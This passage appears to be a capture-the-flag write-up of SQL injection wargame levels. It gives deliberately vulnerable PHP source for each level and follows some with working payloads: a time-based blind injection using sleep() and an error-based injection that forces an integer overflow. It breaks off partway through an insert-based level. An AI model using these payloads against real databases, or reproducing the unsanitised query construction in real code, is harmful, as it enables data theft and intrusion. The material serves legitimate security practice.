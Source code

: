 ```php
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

payload: id=admin\&pw=cc' or if(ord(substr(pw , i, 1)) = j , sleep(2)  , 1)-- -



## Frankenstein(error based)

```php

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

payload: ' or case when id="admin" and {pw} like "{j}%" then 9999999999999999999\*9999999999999999999 else 1 end%23

## Phantom(Insert)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("phantom");

  if($_GET['joinmail']){
    if(preg_match('/duplicate/i', $_GET['joinmail'])) exit("nice try");
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysqli_query($db,$query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysqli_query($db,"select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysqli_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>".htmlentities($result[email])."</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
```